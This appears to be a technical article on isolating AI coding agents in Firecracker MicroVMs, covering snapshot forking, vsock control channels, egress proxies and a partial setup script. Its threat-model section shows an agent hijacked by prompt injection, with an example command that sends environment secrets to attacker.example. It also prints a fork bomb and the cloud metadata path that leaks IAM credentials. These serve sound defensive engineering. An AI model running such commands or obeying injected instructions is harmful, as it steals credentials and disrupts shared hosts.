




> [!NOTE] Executive Summary (TL;DR)
> - **Shared-Kernel Containers Cannot Hold the Line for Autonomous Agents**: Coding Agents, Computer-Use agents, and reinforcement learning (RL) rollout workers act as high-concurrency arbitrary untrusted code executors. Traditional `runc` Docker containers share over 350 Linux system calls with the host kernel—meaning a single kernel privilege escalation flaw (such as Dirty Pipe `CVE-2022-0847`) or runtime file-descriptor leak (such as Leaky Vessels `CVE-2024-21626`) compromises the entire physical node.
> - **Hardware Virtualization Without Sacrificing Native Build I/O**: While gVisor (`runsc`) shrinks the host attack surface via its user-space Sentry kernel, metadata-intensive workloads like `git checkout`, `npm install`, and `cargo build` pay a substantial syscall-interception and virtual filesystem tax (`15%–50%+` slower). **AWS Firecracker MicroVMs** enforce hardware-backed KVM (`/dev/kvm`) isolation with an independent guest Linux kernel, `< 5 MiB` VMM memory overhead, `~125 ms` cold boot, and near-native kernel-space VFS throughput.
> - **Sub-15ms Snapshot Restore & Parallel State Forking**: Combining Firecracker's `/snapshot/create` and `/snapshot/load` APIs with `MAP_PRIVATE` copy-on-write (CoW) page mapping, Linux `userfaultfd` (`Uffd`) lazy remote page streaming, and `dm-thin` / XFS `reflink` block snapshots wakes pre-warmed Python/Node/browser runtimes in **under 15 ms**—allowing Monte Carlo Tree Search (MCTS) agents and RL rollouts to fork dozens of sibling MicroVMs from a single checkpoint without multiplying physical RAM.
> - **Secretless Zero-Trust Networking**: Real credentials (`GITHUB_TOKEN`, `OPENAI_API_KEY`, cloud IAM keys) must never enter guest environment variables or guest RAM. Production sandboxes separate control and data planes via host-to-guest **`virtio-vsock`** channels and a host-side L7 Egress Proxy that swaps opaque **Phantom Tokens** for real `Authorization` headers outside the VM boundary while dropping RFC1918 private traffic and cloud metadata (`169.254.169.254`).

## Introduction: When Autonomous Agents Gain `bash` and `python`, Why Standard Docker Containers Fail

In early conversational LLM applications, model outputs were inert Markdown strings rendered inside a browser tab. Today, with the rise of autonomous Coding Agents, GUI Computer-Use agents, and [environment scaling for verifiable agent tasks](/en/articles/environment-scaling-agent-guide/), the model sits directly behind a live `bash` shell, a `python` interpreter, a headless Chromium browser, and full native compiler toolchains. Simultaneously, in [distributed RL post-training pipelines built on veRL](/en/articles/distributed-rl-post-training-verl-colocation/), training clusters execute thousands of model-sampled patches and unit-test suites per second inside ephemeral sandboxes to compute verifiable rewards.

Viewed through an infrastructure security lens, **an autonomous Agent platform has the exact same threat model as a multi-tenant Remote Code Execution (RCE-as-a-Service) cluster**. Regardless of how carefully you layer [prompt engineering guardrails](/en/articles/prompt-engineering-guide/) upstream, the moment an Agent ingests an external GitHub Issue, scrapes a third-party webpage, or runs `pip install` on an untrusted repository, **Indirect Prompt Injection** or malicious build hooks (`setup.py`, `postinstall`, `conftest.py`) can hijack its execution trajectory.

A common instinct is to wrap each session inside an unprivileged Docker container. Yet as we established in [Docker Internals from First Principles: Namespaces, cgroups, and OverlayFS](/en/articles/docker-internals-namespace-cgroups-overlayfs/), a standard `runc` container is not a virtual machine—it is a normal host process with filtered kernel namespaces and cgroup resource quotas, sharing the exact same Ring 0 Linux kernel as the host control plane. Under adversarial or buggy agent workloads, standard containers break down across four attack vectors:

1. **Massive Shared-Kernel Syscall Attack Surface**: The x86_64 Linux kernel exposes **more than 350 system calls**. Even when Docker's default `seccomp` profile blocks roughly 44 dangerous syscalls, untrusted code inside the container can directly exercise over 300 complex kernel code paths—spanning VFS, networking, `io_uring`, and pipe buffers. High-profile escapes such as **Dirty Pipe (`CVE-2022-0847`)**—where an uninitialized `PIPE_BUF_FLAG_CAN_MERGE` flag allowed unprivileged processes to overwrite arbitrary read-only files in the host page cache—and **Leaky Vessels (`CVE-2024-21626`)**—where leaked host file descriptors in `runc` allowed `WORKDIR` breakout onto the host filesystem—demonstrate why shared kernels are unacceptable for untrusted code execution.
2. **Kernel-Structure Exhaustion & Noisy-Neighbor Collapse**: Hallucinated agent loops frequently trigger fork bombs (`:(){ :|:& };:`), exhaust filesystem `inodes` via millions of tiny temporary files, or saturate NVMe writeback queues with dirty page flushes. Without hardware isolation boundaries, a single runaway session can stall scheduling across a 128-core host.
3. **Instant Credential Exfiltration via Prompt Injection**: Passing real secrets via `docker run -e GITHUB_TOKEN=... -e OPENAI_API_KEY=...` makes credential theft trivial. A single injected instruction executing `env | base64 | curl -X POST https://attacker.example/exfil -d @-` drains every production secret in milliseconds.
4. **Lateral VPC Movement & Cloud IMDS Harvesting**: On default bridge networks, compromised sandboxes can scan RFC1918 internal subnets (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`) or query the cloud Instance Metadata Service (IMDS) at `http://169.254.169.254/latest/meta-data/iam/security-credentials/` to steal the host node's IAM role credentials.

Consequently, a production-grade [agent tool runtime and execution sandbox](/en/articles/advanced-agent-tool-use-and-function-calling/) must reconcile three seemingly conflicting engineering requirements: **hardware-virtualized isolation**, **sub-20ms stateful environment cloning and rollback**, and **secretless zero-trust egress networking**. This triad is precisely why **AWS Firecracker MicroVMs** have emerged as the gold-standard substrate for modern AI Agent infrastructure.

---

## 1. Isolation Spectrum Benchmark: Namespace/bwrap vs. gVisor User-Space Kernel vs. Firecracker MicroVMs

Before writing scheduler code, platform engineers need an accurate mental model of where each sandboxing technology draws its trust boundary. Across industry deployments, four architectures dominate: **Linux Namespaces / Bubblewrap (`bwrap`)**, **gVisor (`runsc`)**, **Kata Containers**, and **native Firecracker MicroVMs**. Having previously examined Kubernetes CRI integration in [Kubernetes Node Runtime Customization: NRI, Kata, gVisor, and cgroups v2 Tuning](/en/articles/k8s-runtime-nri-kata-gvisor-kernel-tuning/), let us now dissect instruction trapping, syscall forwarding, and filesystem I/O mechanics at the OS layer.



### 1.1 Architectural Trade-Off Matrix

Performance benchmarks are meaningless divorced from workload characteristics. The table below contrasts all four isolation tiers across security boundaries, startup latency, memory density, and metadata-heavy build I/O:

| Dimension | Namespace / `runc` / `bwrap` | gVisor (`runsc` Sentry + Gofer) | Kata Containers (Cloud Hypervisor / QEMU) | Firecracker MicroVM (Native API + Snapshot) |
| :--- | :--- | :--- | :--- | :--- |
| **Primary Isolation Boundary** | Shared host kernel (Namespaces + cgroups + Seccomp) | User-space Go kernel (`Sentry`) re-implementing syscalls | Hardware virtualization (VT-x / AMD-V) + dedicated guest kernel | Hardware virtualization (VT-x / AMD-V) + minimalist Rust VMM + guest kernel |
| **Host Kernel Attack Surface** | High (~300+ syscalls reach host Ring 0 directly) | Low (Sentry invokes only ~50–70 restricted host syscalls) | Very Low (KVM `/dev/kvm` + minimal virtualized devices) | Minimal (No PCI/BIOS; 5 VirtIO/serial devices wrapped inside `jailer` chroot) |
| **Cold Boot Latency** | `5 – 30 ms` (`clone`/`exec` process spawn) | `50 – 150 ms` (Sentry + Gofer sandbox init) | `150 – 500 ms` (VMM init + OCI shim + guest agent) | Cold boot `< 125 ms`; **Snapshot restore `< 15 ms`** |
| **Base Memory Overhead** | `< 2 MiB` | `15 – 30 MiB` (Sentry runtime + Go GC heap metadata) | `30 – 100+ MiB` (PCI/ACPI tables + `kata-agent` overhead) | **VMM overhead `< 5 MiB`** (+ ~30–64 MiB minimal guest kernel) |
| **Build & Metadata I/O Overhead** | Native (`~0%` penalty) | **Moderate to High (`15% – 50%+` slower on builds)** | Near-native (VirtIO-blk / `virtio-fs` shared memory) | **Near-native** (In-guest Page Cache + native Linux Ext4 VFS) |
| **POSIX / Syscall Fidelity** | 100% host kernel compatibility | Minor edge-case gaps (specialized `ioctl`, `io_uring`, BPF) | 100% real Linux kernel semantics | 100% real Linux kernel semantics (determined by guest kernel) |
| **Multi-Tenant Agent Fit** | Trusted internal tools or outer wrapper only | Stateless compute/network functions | Kubernetes Pod-level isolation & VFIO GPU workloads | **Ideal for Coding Agents, Computer-Use, and RL Rollouts** |

### 1.2 Why gVisor Bottlenecks on Heavy `git`, `npm`, and `cargo` Agent Workloads

Teams building early Python code interpreters frequently start with gVisor (`runsc`). When an Agent executes compute-bound in-memory scripts (such as matrix multiplication in `numpy`), gVisor performs admirably. However, once the product evolves into a **full-stack Software Engineering Agent**—cloning large repositories (`git clone` / `git status`), unpacking tens of thousands of small files (`npm install` / `pnpm` / `pip`), and running parallel Rust or C++ builds (`cargo build` / `cmake`)—end-to-end build times inside gVisor routinely degrade by **15% to 50%+** alongside elevated host CPU consumption.

Two architectural realities drive this overhead:

1. **Per-Syscall Context-Switch Tax**: Installing a mid-sized JavaScript project via `npm install` creates tens of thousands of nested directories and files under `node_modules`, firing millions of rapid-fire `openat`, `newfstatat`, `getdents64`, `read`, `write`, `close`, and `futex` syscalls. Under gVisor's `Systrap` (or `KVM`) platform, every single syscall traps out of the application thread into the Go-based **Sentry** process, which must validate virtual memory mappings, resolve virtual file descriptors, and update user-space state tables.
2. **Metadata Churn Across VFS2 and Gofer**: Because the Sentry is prohibited from opening host files directly, filesystem access historically required IPC round-trips to an external **Gofer** process over **LISAFS** (which replaced 9P). Even with modern `runsc` enabling **Directfs** by default—where the Gofer donates scoped directory file descriptors upfront so the Sentry can issue `openat` calls directly—heavy directory tree walks, `mtime` checks, and inode tracking still traverse Go-managed locks and caches inside Sentry's VFS2 layer rather than running natively inside the C-optimized Linux VFS dentry and page caches.

**Firecracker MicroVMs** invert this trade-off through hardware virtualization:
- Leveraging **Intel VT-x / AMD-V** and Linux **KVM (`/dev/kvm`)**, Firecracker boots an unmodified, stripped-down Linux guest kernel directly on physical CPU cores.
- When `git`, `npm`, or `rustc` issues five million `stat` and small-file read calls inside the sandbox, **every syscall executes natively inside Guest Ring 0**, hitting the guest kernel's own dentry cache and Page Cache without triggering a costly `VM-Exit` to the host! Host interaction occurs asynchronously in batches via shared-memory `virtio-block` and `virtio-net` ring buffers.
- Written in Rust from scratch for AWS Lambda and Fargate, Firecracker strips away QEMU's legacy BIOS, PCI bus enumeration, USB controllers, and VGA emulation—exposing only `virtio-net`, `virtio-block`, `virtio-vsock`, `virtio-rng`, and a serial console—keeping VMM memory overhead strictly **under `5 MiB` per MicroVM**.

---

## 2. Sub-15ms Restore & State Forking: Firecracker Snapshots, `userfaultfd` Lazy Paging, and CoW Block Storage

Booting a bare Linux kernel in `< 125 ms` is impressive, yet "kernel `init` reached" is very different from "Agent toolchain ready." A production Coding or Browser Agent image preloads Python 3.12 data-science libraries, Node.js toolchains, language servers (LSP), and a headless Chromium browser. Cold-booting those runtimes from disk on every session pushes Time-to-First-Tool-Execution to `3–8 seconds`.

Even more importantly, frontier [MCTS-driven Agent reflection and tree-search architectures](/en/articles/agent-reflection-self-correction/) and group-based RL rollout algorithms (such as GRPO) do not execute linear trajectories. Facing a complex repository bug, an Agent needs to **checkpoint the exact live memory and filesystem state of a partially debugged workspace and instantaneously fork $N$ identical sibling sandboxes in milliseconds**, exploring 8 candidate patches in parallel before committing the winning branch and discarding the rest.

Firecracker achieves this "time travel and parallel universe branching" by combining **MicroVM Snapshots**, **lazy page-fault memory backends**, and **Copy-on-Write (CoW) block devices**.

### 2.1 Anatomy of a Firecracker Snapshot & Dual Lazy-Loading Backends

Creating a Firecracker checkpoint involves pausing vCPU execution via `PATCH /vm` (`{"state": "Paused"}`) followed by `PUT /snapshot/create`, which emits two artifacts:
1. **`vm.state` (Device & CPU Register State, typically `~15–30 KiB`)**: Serializes vCPU registers, MSRs, TSC offsets, KVM interrupt controller (`irqchip`) state, and VirtIO ring descriptors.
2. **`vm.mem` (Raw Guest Physical Memory Dump, matching `mem_size_mib`, e.g., `2 GiB`)**: Contains the exact guest RAM pages at the instant of pause—with Python interpreters, imported shared libraries, and warm browser processes already resident in memory.

Eagerly reading a `2 GiB` `vm.mem` file into RAM during `PUT /snapshot/load` would take `~500 ms` even on a `4 GB/s` NVMe drive, destroying sub-20ms elasticity. Instead, Firecracker exposes two lazy memory backends under `mem_backend`:



#### Backend A: `backend_type: "File"` (Local `mmap(MAP_PRIVATE)` Copy-on-Write)
When `vm.mem` resides on local NVMe storage (and warm in the host kernel's Page Cache), `"backend_type": "File"` instructs Firecracker to map `vm.mem` via `mmap(..., PROT_READ | PROT_WRITE, MAP_PRIVATE, fd, 0)`:
- **Zero Eager Memory Copy at Restore Time**: `mmap` merely establishes virtual memory area (VMA) metadata inside the host kernel—**zero bytes of `vm.mem` are copied during `PUT /snapshot/load`**. Deserializing `vm.state` and resuming vCPUs completes in **`3 to 12 ms`**.
- **Cross-VM Page Cache Deduplication**: When $N$ sibling MicroVMs restore from the same `vm.mem` file on one host, every unmodified `4 KiB` page (guest kernel text, Python shared objects, warm heap structures) is backed by **one single physical page** in the host Page Cache. Only when sibling $i$ mutates a virtual page does the host MMU trigger a write-protection fault and allocate a private `4 KiB` anonymous page.

#### Backend B: `backend_type: "Uffd"` (Linux `userfaultfd` On-Demand Page Streaming)
In large multi-tenant clusters where users save thousands of custom per-repository snapshots (`2–8 GiB` each) in remote object storage or a distributed cache tier, pre-staging every `vm.mem` onto every host disk is impossible.
Setting `"backend_type": "Uffd"` points `backend_path` to a host Unix Domain Socket (e.g., `/uffd.sock`):
1. During `/snapshot/load`, Firecracker registers the guest RAM region with Linux `userfaultfd` and passes the `uffd` file descriptor (plus guest memory region mappings) over the Unix socket via `SCM_RIGHTS` ancillary data to an external user-space **UFFD Handler daemon**.
2. The MicroVM resumes immediately. Whenever a guest vCPU accesses a missing page, the host kernel suspends only that faulting vCPU thread and delivers a `uffd_msg` notification over `uffd`.
3. The UFFD Handler fetches the corresponding memory chunk (typically issuing `256 KiB–2 MiB` spatial read-ahead Range requests) and resolves the fault via `ioctl(uffd, UFFDIO_COPY, ...)` (or `UFFDIO_ZEROPAGE` for zeroed regions), waking the vCPU seamlessly. Because a typical short-lived Agent turn touches only `10%–25%` of allocated guest RAM, `Uffd` enables sub-100ms cold-node startup without waiting for multi-gigabyte downloads.

### 2.2 Copy-on-Write Root Filesystem (`rootfs`) Strategies

Memory CoW must be paired with block-level CoW: if two restored MicroVMs mount the same writable `rootfs.ext4` image concurrently, diverging guest buffer caches will corrupt Ext4 filesystem metadata within seconds. Production Firecracker fleets pair snapshot restore with one of three block CoW mechanisms:

1. **Device-Mapper Thin Provisioning (`dm-thin`)**: A host LVM `thin-pool` stores the golden rootfs as a read-only origin volume. Before each restore, `dmsetup message` creates a writable thin snapshot block device (`/dev/mapper/fc-sbx-8841`) in milliseconds. It provides strict block-layer isolation and hard per-VM write quotas, widely used in `firecracker-containerd`.
2. **XFS / Btrfs Extent Reflinks (`cp --reflink=always`)**: On hosts formatted with `mkfs.xfs -m reflink=1` (default on modern Linux distributions) or Btrfs, executing `cp --reflink=always base_rootfs.ext4 sbx_8841.ext4` duplicates only inode extent pointers in **`1–3 ms`** with zero data block I/O. New physical blocks are allocated only as the guest overwrites specific extents. Its operational simplicity makes it a favorite for custom high-throughput Agent schedulers.
3. **Read-Only SquashFS + In-Guest OverlayFS**: All MicroVMs share an immutable compressed `rootfs.squashfs` (`"is_read_only": true`) alongside a tiny sparse `scratch.ext4` drive (or `tmpfs`), joined via `mount -t overlay` inside a custom guest `/sbin/init`.

### 2.3 Quantitative Memory & Latency Model for MCTS / RL State Forking

Let us verify the memory savings mathematically. Suppose an MCTS bug-fixing search or GRPO rollout (group size $N = 16$) provisions each MicroVM with $M_{\text{cfg}} = 2048\text{ MiB}$, where the pre-warmed golden snapshot holds an active resident working set of $M_{\text{shared}} = 640\text{ MiB}$, and each Firecracker VMM process consumes $M_{\text{vmm}} \approx 4.5\text{ MiB}$. During test execution, branch $i$ dirties $\Delta P_i$ pages (`4 KiB` each)—say $24,576$ dirty pages ($96\text{ MiB}$) on average for compiled artifacts and test outputs.

Without CoW snapshot sharing, running 16 independent sandboxes consumes $16 \times (640 + 96)\text{ MiB} = 11,776\text{ MiB}$ of host RAM. Under Firecracker `MAP_PRIVATE` snapshot forking, total host physical RAM consumption $M_{\text{total}}(N)$ follows:

$$M_{\text{total}}(N) = M_{\text{shared}} + \sum_{i=1}^{N} \left( M_{\text{vmm}} + \Delta P_i \cdot 4\text{ KiB} \right)$$

Substituting our production rollout parameters ($N = 16$):

$$M_{\text{total}}(16) = 640\text{ MiB} + 16 \times \left( 4.5\text{ MiB} + 96\text{ MiB} \right) = 640\text{ MiB} + 1608\text{ MiB} = 2248\text{ MiB} \approx 2.20\text{ GiB}$$

That is a **$5.2\times$ reduction in physical memory footprint**, enabling a single `256 GiB` bare-metal server to host over a thousand concurrent RL rollout MicroVM branches!

Similarly, end-to-end readiness latency $T_{\text{ready}}$ from `/snapshot/load` to the first command executing over `vsock` decomposes into:

$$T_{\text{ready}} = T_{\text{vmm\_spawn}} + T_{\text{vmstate\_load}} + K_{\text{hot}} \cdot t_{\text{pf}}$$

where `jailer` + VMM initialization takes $T_{\text{vmm\_spawn}} \approx 3\text{ ms}$, register and VirtIO ring restoration takes $T_{\text{vmstate\_load}} \approx 2\text{ ms}$, and the initial RPC touches $K_{\text{hot}} \approx 500\text{–}1500$ warm Page-Cache-resident pages at $t_{\text{pf}} \approx 1.5\text{–}3\ \mu\text{s}$ per minor fault—yielding a deterministic **`7 to 12 ms`** ready time.

---

## 3. Zero-Trust Networking & the Secretless Sandbox: `virtio-vsock` and Egress Credential Injection

Even with rock-solid KVM isolation, Agent platforms routinely fail on a second architectural front: **how can untrusted code inside a sandbox interact with authenticated external services—private Git repositories, LLM gateways, [MCP tool servers](/en/articles/mcp-guide/), or package registries—without ever possessing real credentials?**

### 3.1 The Golden Rule: Never Inject Real Secrets into Sandbox Environment Variables

In conventional microservices, injecting `GITHUB_TOKEN`, `AWS_SECRET_ACCESS_KEY`, or `OPENAI_API_KEY` via environment variables is standard practice. Inside an AI Agent sandbox, doing so is **an immediate security vulnerability**:
- Code executing inside the VM is synthesized dynamically by a probabilistic model influenced by untrusted external context (scraped web pages, third-party PR descriptions, repository `Makefile` hooks).
- Once secret bytes enter guest RAM—whether via environment variables, mounted `.netrc` files, or CLI flags—any subprocess inside the sandbox can read `/proc/self/environ` or `os.environ` and exfiltrate those bytes through DNS queries or side-channel URL parameters on allowlisted domains.

The architectural cure is the **Secretless Sandbox pattern**: code inside the MicroVM receives only ephemeral, worthless **Phantom Tokens** (e.g., `fc_phantom_gh_9f8a7b`), while real cryptographic credentials never leave the host control plane's encrypted secret vault.



### 3.2 Control-Plane Decoupling via `virtio-vsock`

For pure computation, algorithm grading, or offline data analysis sandboxes, a Firecracker MicroVM **should not even attach a `virtio-net` network interface**! With zero network interfaces attached, the guest kernel has no external IP routing table whatsoever, physically eliminating network scanning, botnet abuse, and packet exfiltration.

How does the host orchestrator dispatch Python scripts and stream real-time `stdout`/`stderr` into an air-gapped MicroVM? Through **`virtio-vsock` (Virtual Socket)**:
- `virtio-vsock` provides a socket communication channel (`AF_VSOCK`) between hypervisor and guest backed directly by VirtIO shared-memory rings—requiring zero IP addresses, MAC addresses, or TCP/IP network configuration.
- Inside the guest, a tiny static binary (`guest-agent`, `< 3 MiB` in Rust or Go) listens on an `AF_VSOCK` port (e.g., `VMADDR_CID_ANY`, port `5000`).
- On the host side, Firecracker maps the MicroVM's `vsock` device onto a standard host **Unix Domain Socket** (`uds_path`, such as `./v.sock` inside the VM's chroot).
- **Wire Handshake Protocol**: When the host orchestrator connects to `./v.sock`, it writes a single ASCII line: `CONNECT 5000\n`. Firecracker bridges the stream to guest `AF_VSOCK` port `5000` and replies `OK <host_port>\n` (e.g., `OK 10524\n`). Immediately afterward, the socket operates as a raw, low-latency bidirectional byte pipe carrying length-prefixed JSON-RPC or gRPC streams.

### 3.3 Host-Side L7 Egress Proxy & Defense-in-Depth Firewalling

When a Coding Agent genuinely needs outbound access to install packages (`pypi.org`, `registry.npmjs.org`) or push branches to `api.github.com`, we attach a rate-limited TAP interface governed by three strict zero-trust layers:

1. **L3/L4 Metadata & Private Subnet Blackholing (TC eBPF / `nftables`)**: Packet filters attached directly to the host TAP ingress unconditionally `DROP` packets destined for cloud link-local metadata `169.254.0.0/16` (blocking `169.254.169.254`), RFC1918 private networks (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`), Carrier-Grade NAT (`100.64.0.0/10`), and loopback ranges—allowing traffic *only* to the host-local L7 Egress Proxy port so untrusted code cannot bypass inspection via hardcoded public IPs.
2. **Domain-Level SNI & Host Allowlisting**: Outbound HTTPS flows through the host L7 proxy (`HTTPS_PROXY`), which inspects `CONNECT` targets and TLS `SNI` against the session's explicit allowlist, rejecting arbitrary exfiltration sinks (`webhook.site`, `pastebin.com`, attacker-controlled domains).
3. **Host-Boundary Credential Swapping (Domain-Pinned Phantom Tokens)**: For authenticated endpoints like `api.github.com`, the host provisions an ephemeral per-sandbox CA certificate into the guest trust store. When `git` or `curl` inside the guest sends `Authorization: Bearer fc_phantom_9f8a`, the host L7 proxy terminates TLS **outside the MicroVM hardware boundary** and validates two invariants before injecting the real secret: **(a) the phantom token belongs to this exact `vm_id`, and (b) the target `Host` header matches the exact destination domain pinned to that credential** (preventing an attacker from sending a GitHub phantom token to `pypi.org` in hopes of tricking the proxy into decrypting and forwarding the real secret!). Even full `root` compromise inside the guest yields nothing but useless random strings.

---

## 4. Production Walkthrough: Building an Async Firecracker + `jailer` + `vsock` Sandbox Scheduler

Let us translate these principles into verified, runnable infrastructure code conforming strictly to Firecracker's official OpenAPI specification (`firecracker.yaml`) and `jailer` privilege-drop model.



### 4.1 Stage 1: Building the Pre-Warmed Golden MicroVM Checkpoint

First, we stage a clean copy of `rootfs.ext4` inside our checkpoint directory and configure a golden MicroVM over Firecracker's Unix socket REST API—enabling `track_dirty_pages: true`, block I/O token-bucket `rate_limiter` quotas, and `virtio-vsock`—then warm up Python's heavy imports in guest RAM before freezing `vm.state` and `vm.mem`:

```bash
#!/usr/bin/env bash
set -euo pipefail

CKPT_DIR="/srv/fc-snapshots/base-v1"
API_SOCK="/tmp/fc-golden-builder.sock"
mkdir -p "${CKPT_DIR}" && cd "${CKPT_DIR}"
cp --reflink=always /srv/fc-images/golden-rootfs.ext4 ./rootfs.ext4
rm -f "${API_SOCK}" ./v.sock

# Launch builder Firecracker instance (production restores run strictly inside jailer chroot)
firecracker --api-sock "${API_SOCK}" &
FC_PID=$!
trap 'kill -9 "${FC_PID}" 2>/dev/null || true; rm -f "${API_SOCK}"' EXIT
while [ ! -S "${API_SOCK}" ]; do sleep 0.01; done

# 1. Configure uncompressed ELF vmlinux kernel & fast-boot parameters with kvm-clock
curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PUT 'http://localhost/boot-source' \
  -H 'Content-Type: application/json' \
  -d '{
    "kernel_image_path": "/srv/fc-images/vmlinux-6.1.102",
    "boot_args": "console=ttyS0 reboot=k panic=1 pci=off nomodules clocksource=kvm-clock random.trust_cpu=on init=/sbin/guest-init"
  }'

# 2. Attach golden rootfs via relative path ./rootfs.ext4 with token-bucket I/O rate limiting
curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PUT 'http://localhost/drives/rootfs' \
  -H 'Content-Type: application/json' \
  -d '{
    "drive_id": "rootfs",
    "path_on_host": "./rootfs.ext4",
    "is_root_device": true,
    "is_read_only": false,
    "io_engine": "Async",
    "rate_limiter": {
      "bandwidth": { "size": 104857600, "refill_time": 1000 },
      "ops": { "size": 5000, "refill_time": 1000 }
    }
  }'

# 3. Configure 2 vCPUs, 2048 MiB RAM, disable SMT, and enable dirty-page tracking
curl --fail --silent --show-error --unix-socket "${API_SOCK}" \
  -X PUT 'http://localhost/machine-config' \
  -H 'Content-Type: application/json' \
  -d '{
    "vcpu_count": 2,
    "mem_size_mib": 2048,
    "smt": false,
    "track_dirty_pages": true
  }'

